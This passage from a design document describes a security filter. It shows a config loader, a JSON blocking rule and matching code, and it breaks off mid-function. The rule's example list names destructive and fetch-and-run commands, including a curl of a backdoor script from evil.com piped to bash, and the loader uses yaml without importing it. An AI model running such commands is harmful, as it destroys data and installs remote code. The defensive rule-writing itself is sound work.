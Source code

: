 ```python
# Pattern: ${VAR_NAME:default_value}
import os, re

def load_config_with_env(config_path):
    with open(config_path) as f:
        config_text = f.read()
    
    # Replace ${VAR_NAME:default} with env value or default
    def replace_env(match):
        var_with_default = match.group(1)
        var_name, default = var_with_default.split(':', 1) if ':' in var_with_default else (var_with_default, '')
        return os.getenv(var_name, default)
    
    config_text = re.sub(r'\$\{([^}]+)\}', replace_env, config_text)
    return yaml.safe_load(config_text)
```

### 2.4 Rule Engine

**File: enhanced_security_rules.json**

**Rule Structure**:

```json
{
  "version": "2.2",
  "last_updated": "2025-10-24",
  "rules": [
    {
      "id": "rule_001",
      "name": "No Command Execution",
      "description": "Prevents shell command injection",
      "pattern": "(?i)(rm\\s+-rf|curl\\s+.*\\||bash|sh\\s+-c)",
      "severity": "CRITICAL",
      "action": "BLOCK",
      "examples": [
        "rm -rf /var/log/*",
        "curl evil.com/backdoor.sh | bash"
      ],
      "category": "command_injection"
    }
  ]
}
```

**Rule Compilation & Execution**:

```python
# At initialization (once)
for rule in rules:
    rule['compiled_pattern'] = re.compile(
        rule['pattern'],
        re.IGNORECASE | re.MULTILINE | re.DOTALL
    )

# At runtime (per request)
def check_injection(text: str) → Dict:
    for rule in self.rules:
        match = rule['compiled_pattern'].search(text)
        if match:
            return {
                'blocked': True,
                'rule_id': rule['id'],
                'rule_name': rule['name'],
                'severity': rule['severity'],
```
